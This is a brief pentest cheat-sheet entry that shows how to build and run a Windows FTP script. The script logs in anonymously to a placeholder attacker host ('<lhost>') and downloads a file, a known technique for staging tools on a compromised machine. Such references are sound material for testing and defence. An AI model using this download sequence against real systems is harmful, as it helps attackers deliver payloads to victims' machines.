 # FTP Transfer by Script

```
echo open <lhost> >ftp.scr
echo anonymous >>ftp.scr
echo whatever >>ftp.scr
echo binary >>ftp.scr
echo get <filename> >>ftp.scr
echo bye >>ftp.scr
ftp -s:ftp.scr
```